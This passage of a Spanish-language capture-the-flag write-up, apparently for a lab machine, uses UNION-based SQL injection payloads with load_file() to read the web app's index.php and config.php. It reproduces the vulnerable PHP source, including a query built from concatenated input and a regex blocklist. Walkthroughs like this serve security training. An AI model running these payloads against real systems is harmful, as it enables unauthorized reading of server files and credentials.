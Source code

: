 Obtenemos la `Data` para la Columna `one` en la Tabla `flag` y en la Base de Datos `November`
```bash
Sorry, "UHC{F1rst_5tep_2_Qualify}" you are not eligible due to already qualifying.
```

Encontramos la flag que nos piden la introducimos en la ruta `/challenge` y vemos que nos abren el el puerto SSH pero no tenemos ninguna usuario ni clave ni na de na para conectarnos.
```bash
Welcome Back!
Your IP Address has now been granted SSH Access.
```

Procedemos a intentar listar informacion tipo `Local File Inclusion` atraves de la `SQLI` 
```bash
player=admin' union select load_file("/var/www/html/index.php")-- -
```

Vemos que listamos el codigo fuente del Archivo  `index.php`

```bash
Sorry, <?php
  require('config.php');
  if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {

	$player = strtolower($_POST['player']);

	// SQLMap Killer
	$badwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
	foreach ($badwords as $badword) {
		if (preg_match( $badword, $player )) {
			echo 'Congratulations ' . $player . ' you may compete in this tournament!';
			die();
		}
	}

	$sql = "SELECT player FROM players WHERE player = '" . $player . "';";
	$result = mysqli_query($conn, $sql);
	$row = mysqli_fetch_array( $result, MYSQLI_ASSOC);
	if ($row) {
		echo 'Sorry, ' . $row['player'] . " you are not eligible due to already qualifying.";
	} else {
		echo 'Congratulations ' . $player . ' you may compete in this tournament!';
		echo '<br />';
		echo '<br />';
		echo 'Complete the challenge <a href="/challenge.php">here</a>';
	}
	exit;
  }
?>
```

Procedemos a listar informacion del archivo `config.php`

```bash
player=admin' union select load_file("/var/www/html/config.php")-- -
```
Respuesta de la inyeccion SQL `load_file()`
